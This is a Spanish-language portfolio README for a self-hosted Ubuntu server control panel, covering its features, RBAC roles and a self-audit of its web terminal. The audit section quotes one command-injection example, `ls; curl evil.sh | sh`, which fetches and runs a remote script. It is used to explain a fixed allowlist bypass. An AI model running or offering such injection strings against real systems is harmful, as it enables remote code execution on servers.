





> 🔒 Código privado (en desarrollo activo desde febrero de 2026). Demo disponible bajo solicitud · Revisión de código en vivo disponible para procesos de entrevista.
> Contacto: javierkarimandradetalamante@gmail.com

*EN: Self-hosted control panel for Ubuntu Server (Node.js/Fastify) that manages sites, domains, Nginx vhosts, Let's Encrypt SSL, GitHub-webhook deploys and a hardened web terminal, with RBAC auth, audit logs and real-time events over WebSockets.*

**En esta ficha:** [Capturas](#capturas) · [Qué resuelve](#qué-problema-resuelve) · [Arquitectura](#arquitectura) · [Caso: auditoría y endurecimiento](#caso-de-estudio-auditoría-y-endurecimiento-de-la-terminal) · [Flujo de deploy](#flujo-de-un-deploy-automático) · [Roles](#roles-y-permisos) · [Historia](#historia) · [Lo que sigue](#lo-que-sigue)

## Capturas

| Conexión al servidor | Configuración de Nginx |
|---|---|
|  |  |

Capturas del panel real corriendo en local.

## ¿Qué problema resuelve?

Montar y mantener sitios en un VPS implica tocar Nginx, Certbot, DNS, permisos y servicios a mano. Franken Panel lo convierte en un flujo guiado desde el navegador, instalado con un solo script, y pensado para que una persona sin experiencia en Linux pueda operar el servidor sin romperlo.

## Funcionalidades

- **Sitios y dominios**: alta de sitios, verificación de dominio y registro de sitios desplegados.
- **Nginx**: crear, habilitar, deshabilitar, validar (`nginx -t`) y recargar vhosts sin downtime.
- **SSL**: certificados Let's Encrypt (Certbot) por sitio.
- **Despliegue continuo**: webhook de GitHub con firma HMAC-SHA256 y reconstrucción automática.
- **Gestor de archivos**: explorar, editar, buscar y subir medios dentro de rutas permitidas.
- **Terminal web**: allowlist de comandos validada segmento por segmento, timeout, límite de salida y bitácora.
- **Exposición pública**: Cloudflare Tunnel (`cloudflared`) + Nginx como capa de borde.
- **Eventos en tiempo real**: notificaciones de cada operación vía WebSockets.
- **Instalador y CLI**: instalador TUI con verificación previa del sistema y CLI global (`franken-panel status|start|stop|logs|update|uninstall`).
- **Asistente Franky IA** (experimental): ayuda dentro del panel con un modelo local vía Ollama.

## Arquitectura

- **~50 endpoints REST** en módulos de dominio (`auth`, `nginx`, `hosting`, `deploy`, `files`, `terminal`, `network`, `events`…).
- El API solo escucha en loopback; toda exposición pasa por Nginx y el túnel.
- Servicio gestionado por **systemd**. El estado vive en archivos JSON que se generan en el primer arranque.

## Caso de estudio: auditoría y endurecimiento de la terminal

Antes de instalarlo en un servidor real hice una auditoría técnica del propio código (27 de febrero de 2026). Encontró dos problemas críticos:

| Hallazgo | Riesgo | Qué hice |
|---|---|---|
| El endpoint de terminal ejecutaba cualquier comando | Ejecución remota sin control | Allowlist de comandos, timeout, límite de salida y registro en auditoría |
| La búsqueda de archivos construía un comando de shell con lo que escribía el usuario | Inyección de comandos | La reemplacé por una búsqueda propia en Node (`fs`), limitada a la carpeta permitida y con tope de archivos |
| Rutas fijas en el código (`/home/<usuario>/www`) | No portable | Variables de entorno (`HOME_DIR`, `WWW_DIR`) |
| Operaciones `sudo` de Nginx y Certbot expuestas por API | Abuso si alguien entra | Cada ruta exige un permiso concreto de RBAC y valida nombres de sitio, dominios y URLs de repositorio |

**El detalle que más me enseñó:** la primera versión de la allowlist solo revisaba la primera palabra del comando. `ls; curl evil.sh | sh` empieza con `ls`, que estaba permitido, así que pasaba completo. La versión actual:

1. Rechaza los metacaracteres que encadenan comandos (`;`, `&`, `$`, `` ` ``, `()`, `{}`, `<>`, saltos de línea y `||`).
2. Parte los pipelines por `|` y exige que **cada** segmento use un comando permitido.
3. Falla cerrado: si un `|` dentro de comillas confunde el análisis, bloquea de más, nunca de menos.

El instalador de producción deja activos `AUTH_ENFORCED=true` y `TERMINAL_ALLOWLIST_ENFORCED=true` en la unidad de systemd.

## Flujo de un deploy automático

## Seguridad

| Área | Implementación |
|---|---|
| Contraseñas | PBKDF2-SHA512 (120k iteraciones) con salt por usuario y comparación en tiempo constante |
| Sesiones | Tokens Bearer aleatorios con expiración (12 h) y logout explícito |
| Autorización | RBAC por permisos, *bootstrap* seguro del primer administrador |
| Auditoría | Registro de acciones administrativas consultable desde el panel |
| HTTP | `@fastify/helmet`, `@fastify/rate-limit`, CORS configurable por origen |
| Webhooks | Firma `X-Hub-Signature-256` |
| Terminal | Allowlist por segmento de pipeline, rechazo de metacaracteres, timeout y límite de salida |
| Archivos | Rutas resueltas dentro de una carpeta raíz; nada fuera de ella |

## Roles y permisos

Cinco roles con permisos explícitos. Cada endpoint declara el permiso que necesita.

| Permiso | super_admin | admin | developer | support | viewer |
|---|:-:|:-:|:-:|:-:|:-:|
| Ver estado del sistema | ✓ | ✓ | | ✓ | ✓ |
| Ver deploys y Nginx | ✓ | ✓ | ✓ | ✓ | ✓ |
| Crear deploys | ✓ | ✓ | ✓ | | |
| Escribir configuración de Nginx | ✓ | ✓ | | | |
| Leer archivos | ✓ | ✓ | ✓ | ✓ | ✓ |
| Escribir archivos | ✓ | ✓ | ✓ | | |
| Usar la terminal | ✓ | ✓ | | ✓ | |
| Gestionar usuarios | ✓ | ✓ | | | |
| Leer la auditoría | ✓ | ✓ | | | |

## Calidad y operación

- **23 tests** con el runner nativo de Node (`node --test`): políticas de hosting, router de intenciones y *smoke test* del despachador.
- Pruebas E2E de autenticación y QA extendido por script.
- Scripts de operación: verificación previa de Ubuntu, *go/no-go* de despliegue, autocorrección, diagnóstico, chequeo de seguridad y desinstalación limpia.

## Historia

| Fecha | Hito |
|---|---|
| Feb 2026 | Auditoría técnica propia y plan de migración en 5 fases |
| Feb 2026 | Fases 1 a 5 cerradas antes de instalar: Ubuntu-only, Cloudflare Tunnel + Nginx, systemd, RBAC y auditoría, terminal endurecida, scripts de salida a producción |
| Mar 2026 | Repositorio actual: instalador TUI, CLI y módulos en `apps/api` |
| Jul 2026 | Asistente Franky IA dentro del panel |
| Hoy | 45 commits y ~13.8k líneas de JavaScript y Bash |

## Lo que sigue

- Terminar de mover el backend monolítico (`dashboard/index.js`) a módulos en `apps/api`. Hoy está a medias.
- Terminar de separar el frontend (`dashboard/app.js`) en módulos.
- Permisos de terminal por rol, no solo por allowlist global.

## Stack

`Node.js` · `Fastify 4` · `WebSockets` · `Bash` · `Nginx` · `Certbot` · `Cloudflare Tunnel` · `systemd` · `Ubuntu Server` · `JavaScript (vanilla) + CodeMirror` en el frontend

## Lo que aprendí

- Diseñar un API que ejecuta operaciones privilegiadas sin abrir la puerta a inyección de comandos, y auditar mi propio código antes de confiar en él.
- Modularizar un backend que nació monolítico, migrándolo por fases sin romper producción.
- Automatizar la instalación y el ciclo de vida de un servicio Linux de punta a punta.

---

**Autor:** Javier Karim Andrade Talamante · Backend Developer · Hermosillo, México · [GitHub](https://github.com/Xavier82h8) · [LinkedIn](https://www.linkedin.com/in/javier-karim)
